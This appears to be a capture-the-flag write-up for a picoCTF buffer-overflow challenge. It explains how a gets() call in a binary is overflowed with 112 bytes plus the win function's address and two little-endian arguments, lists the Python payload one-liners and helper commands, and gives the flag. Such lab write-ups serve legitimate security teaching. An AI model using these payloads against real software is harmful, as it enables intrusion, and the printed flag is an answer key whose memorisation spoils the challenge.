 # Problem


# Solution
There is a dangrous gets() function in this program; you are able to overflow it enough to set a new return address. The buffer for the gets() is 100, so to overflow, it took 112 A's, here's the command to overflow and get to the return address: python -c "print('A'*112 + '\xcb\x85\x04\x08')". Without a flag.txt we will receive a "contact admins if you're on the shell server", since we are doing this locally, we need a flag.txt file of our own. Once we make a flag.txt file and run the exe with the command above, we get another segfault. If we take a look at the C code provided, the win function has a little if statement to check if our first and second argument are not equal to a given string; 0xDEADBEEF,0xDEADC0DE, if arg1 and arg2 are not equal we will return. So we need to supply arg1 and arg2 in little endian form and concatenate it to the rest of our python cmd, we also need to add 4 chars between the win return address and the first and second argumen.  python -c "print('A'*112 + '\xcb\x85\x04\x08' + 'CCCC' + '\xef\xbe\xad\xde' + '\xde\xc0\xad\xde')" | ./vuln

# Commands
**Useful commands for future buffer overflow challenges**  
python -c "print('A'*112 + '\xcb\x85\x04\x08')"  
arg 1 = 0xDEADBEEF (\xef\xbe\xad\xde)  
arg 2 = 0xDEADC0DE (\xde\xc0\xad\xde)  
readelf -s vuln (display all functions)  
dmesg | tail (great way to quickly figure out what's happening in a exe)  

# Flag
picoCTF{addr3ss3s_ar3_3asy30723282}



